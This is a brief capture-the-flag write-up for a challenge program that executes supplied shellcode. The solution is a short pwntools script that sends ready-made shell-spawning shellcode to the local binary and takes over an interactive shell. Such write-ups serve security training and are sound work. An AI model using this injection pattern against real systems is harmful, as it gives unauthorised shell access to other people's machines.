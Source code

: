 # 🔑 Write-Up

We have a program that asks us an shellcode.

If we provide to it an working shellcode, it will perform this shellcode.

There really wasn't a thinking process involved with the solution of this one, pwntools gives us a ready made shellcode for popping a shell using `shellcraft`.


```python
from pwn import *

context.binary = "./vuln"

p = process()
p.sendline(asm(shellcraft.sh()))
p.interactive()
```